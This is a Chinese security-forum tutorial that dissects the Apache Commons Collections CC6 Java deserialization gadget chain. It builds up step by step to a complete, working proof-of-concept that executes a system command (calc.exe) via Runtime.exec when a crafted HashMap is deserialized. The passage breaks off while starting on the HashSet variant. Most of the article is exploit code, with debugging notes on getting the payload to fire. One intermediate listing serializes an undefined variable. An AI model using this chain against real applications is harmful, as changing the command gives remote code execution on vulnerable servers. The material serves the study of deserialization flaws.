# Java 反序列化：Apache Commons Collections CC6 利用链深度解析-先知社区

> **来源**: https://xz.aliyun.com/news/18341  
> **文章ID**: 18341

---

## 环境搭建

* **jdk 8u71**
* **Commons Collection 3.2.1**

jdk下载地址：<https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html#license-lightbox>

具体搭建流程与CC1链是一样的，可以看我之前的[文章](https://xz.aliyun.com/news/18291)。注意CC6对jdk是不受版本限制的，所以任意版本都行，但Commons Collection版本要小于等于3.2.1

## 前言

回顾[CC1](https://xz.aliyun.com/news/18291)：

1. TransformedMap链中，我们是先通过**sun.reflect.annotation.AnnotationInvocationHandler**类中的readObject方法，然后foreach语句会执行Map遍历，执行**memberValues.setValue()**方法，从而调用**MapEntry.setValue()**，然后执行**TransformedMap.checkSetValue()**来触发ChainedTransformer的transform方法。
2. 而在LazyMap链中，则是在foreach语句执行**memberValues.entrySet()**，此时会相当于调用代理对象触发**sun.reflect.annotation.AnnotationInvocationHandler**类中的**invoke()**方法，然后调用**LazyMap.get()**方法来触发ChainedTransformer的transform方法。

但自从Java 8u71以后，官方修改了AnnotationInvocationHandler类中的readObject方法，修改后的代码可以看到不再使用我们原始的Map对象，而是新建了LinkedHashMap对象，并将键值对加入，使得后续操作都是针对于这个新的LinkedHashMap对象，使得无法触发**LazyMap.get()**方法，且新的方法也没有了**memberValues.setValue()**了，可以说TransformedMap链没法用了。

所以我们就思考能否找到一条不经过AnnotationInvocationHandler类且能够触发LazyMap.get()方法的链子呢？

## CC6分析

### HashMap链分析

通过搜索，恰好发现TiedMapEntry中的getValue()方法能调用map.get()，而且map是可控的：

​



那么我们就能通过getValue()来调用LazyMap.get()，搜索getValue()看哪些方法调用了它：发现该类中hashCode方法可以调用它，那么就好办了，hashCode方法我们并不陌生，URLDNS链就是利用HashMap的readObject方法调用putVal()方法，然后调用hash(key)，最后调用key.hashCode()方法：  
所以我想着试一下能否可行，先通过TiedMapEntry.getValue()调用LazyMap.get():

```
import java.io.*;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

public class CC6 {
    public static void main(String[] args) throws Exception {
        ConstantTransformer Runtime = new ConstantTransformer(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer exec=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec};
        ChainedTransformer chain=new ChainedTransformer(transformers);

        Map map=new HashMap();
        Map Lazymap=LazyMap.decorate(map, chain);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"b1uel0n3");
        tiedMapEntry.getValue();
    }
}
```



然后通过HashMap.readObject()调用TiedMapEntry.hashCode从而调用TiedMapEntry.getValue，而readObject中key是我们可控的，我们可以通过put()方法传入key：

```
map.put(tiedMapEntry,"b1uel0n3");
```

但这里有个问题，学过URLDNS链的师傅都知道，Map.put()方法也是会调用hashCode()方法的：



跟HashMap.readObject()调用的方式是一样的，所以执行到这时不用反序列化也能触发TiedMapEntry.hashCode方法弹计算机：



而当最后执行反序列化时：

```
import java.io.*;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

public class CC6 {
    public static void main(String[] args) throws Exception {
        ConstantTransformer Runtime = new ConstantTransformer(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer exec=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec};
        ChainedTransformer chain=new ChainedTransformer(transformers);

        Map map=new HashMap();
        Map Lazymap=LazyMap.decorate(map, chain);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"b1uel0n3");
//        tiedMapEntry.getValue();
        map.put(tiedMapEntry,"b1uel0n3");

        serialize(map);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
}
```



虽然弹了计算机，但通过打断点知道其实执行在执行readObject方法前就已经报错了，并没有执行readObject方法，猜测是因为执行put方法时触发hashCode执行了一次exec命令，而exec返回一个Process对象到Map中从而报错

为了防止这么情况，我们可以先向LazyMap.decorate()传入一个假的ChainedTransformer，这样就算执行put也不会触发exec，然后执行后利用反射将ChainedTransformer改为我们要利用的ChainedTransformer，从而达到我们的效果。

修改后的poc：

```
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};

        ConstantTransformer Runtime = new ConstantTransformer(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer exec=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        ConstantTransformer l = new ConstantTransformer(1);
        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};
        ChainedTransformer chain=new ChainedTransformer(faketransformers);

        Map map=new HashMap();
        Map Lazymap=LazyMap.decorate(map, chain);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"b1uel0n3");
        map.put(tiedMapEntry,"b1uel0n3");

        Field field=chain.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chain,transformers);

        serialize(map);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
}
```

> 新添加的new ConstantTransformer(1)有隐蔽启动进程日志的作用，也可以不加

虽然现在不会报错了，但也没有弹出计算机

在HashMap.readObject处下断点：



可以看到这并不是我们想要的类型的key，而这个key是我们`TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"b1uel0n3");`传入的，但奇怪的是，当我将值改为`111`等数字时，突然就弹计算机了：



可以看到这时的key又是TiedMapEntry类型了。

这就令我有点疑惑，为什么会这样呢？于是我就问ai，还是代码的问题：

```
// 第一种写法
Map map = new HashMap();
Map LazyMap = LazyMap.decorate(map, chain);
TiedMapEntry entry = new TiedMapEntry(LazyMap, "123456789");
map.put(entry, "b1uel0n3"); 

// 第二种写法
Map map = new HashMap();
Map LazyMap = LazyMap.decorate(map, chain);
TiedMapEntry entry = new TiedMapEntry(LazyMap, "123456789");
Map map1 = new HashMap();
map1.put(entry, "b1uel0n3");
```

大家可以想一下上面两种写法哪种更好？

第一种将 TiedMapEntry 放入被 LazyMap 装饰的 map 中，而这个就有个问题就是逻辑有些混乱：



可以看到已经形成了循环引用：map 包含 entry，entry 又指向 LazyMap，而 LazyMap 又装饰 map。这就会导致键值污染，即当触发反序列化时LazyMap 已被部分初始化（有键值对）而出现问题

而第二种则是将 TiedMapEntry 放入独立的 map1 中：



这样不仅逻辑清晰，且map完全干净，则不会出现上诉问题

所以我们修改下代码：

```
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};

        ConstantTransformer Runtime = new ConstantTransformer(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer exec=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        ConstantTransformer l = new ConstantTransformer(1);
        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};
        ChainedTransformer chain=new ChainedTransformer(faketransformers);

        Map innermap=new HashMap();
        Map Lazymap=LazyMap.decorate(innermap, chain);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"111");
        Map map=new HashMap();
        map.put(tiedMapEntry,"b1uel0n3");


        Field field=chain.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chain,transformers);

        serialize(map1);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
}
```

但依旧没有弹计算机，下个断点看看：



那为什么会这样呢，于是我重新看了下每个方法的利用条件，而当我看到LazyMap.get()方法时：  


只有当访问不存在的键时才会调用，而执行`TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"111");`时其实已经设置了键，我们重新理一遍：

当反序列化时会调用HashMap.readObject()：



其中key为**tiedMapEntry**对象，value为"b1uel0n3"，然后调用**HashMap.hash(key)**，触发**key.hashCode()**，即**tiedMapEntry.hashCode()**，tiedMapEntry中map为**LazyMap**，key为"111"，调用**tiedMapEntry.getValue(key)**，然后触发**map.get(key)**，即LazyMap.get("111")。但有个问题，`map.containsKey(key) == false`才调用transform方法，即不存在这个键才能访问，而`TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"111");`将键存在了LazyMap的map中

所以我们需要把它移除才能触发LazyMap.get()方法：

```
innermap.remove("111");
```



成功弹出计算机

最终poc：

```
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};

        ConstantTransformer Runtime = new ConstantTransformer(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer exec=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        ConstantTransformer l = new ConstantTransformer(1);
        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};
        ChainedTransformer chain=new ChainedTransformer(faketransformers);

        Map innermap=new HashMap();
        Map Lazymap=LazyMap.decorate(innermap, chain);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"111");
        Map map=new HashMap();
        map.put(tiedMapEntry,"b1uel0n3");
        innermap.remove("111");

        Field field=chain.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chain,transformers);

        serialize(map);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
}
```

完整利用链：

```
ObjectInputStream -> readObject()
HashMap -> readObject()
HashMap -> hash(key)
TiedMapEntry -> hashCode()
TiedMapEntry -> getValue()
LazyMap -> get()
ChainedTransformer -> transform()
ConstantTransformer -> transform()
InvokerTransformer -> transform()
    Class.getMethod()
InvokerTransformer -> transform()
    Runtime.getRuntime()
InvokerTransformer -> transform()
    Runtime.exec()
```

### HashSet链分析

[ysoserial](https://github.com/frohoff/ysoserial)给的链子是HashSet链：



对比HashCode链可以看出这条链依旧是通过`TiedMapEntry.hashCode()->TiedMapEntry.getValue()`来调用LazyMap.get()，但唯一不同的是触发TiedMapEntry.hashCode()是通过HashMap.put()来触发。正如前面我们提到的，HashMap.put()和HashMap.readObject()最后都是调用`putVal(hash(key))`，都能触发**TiedMapEntry.hashCode()**。

但HashMap.put()我们最后是能触发LazyMap.get()，但我们还需要一个起点，于是我们搜索`map.put(`，成功找到HashSet.readObject()：

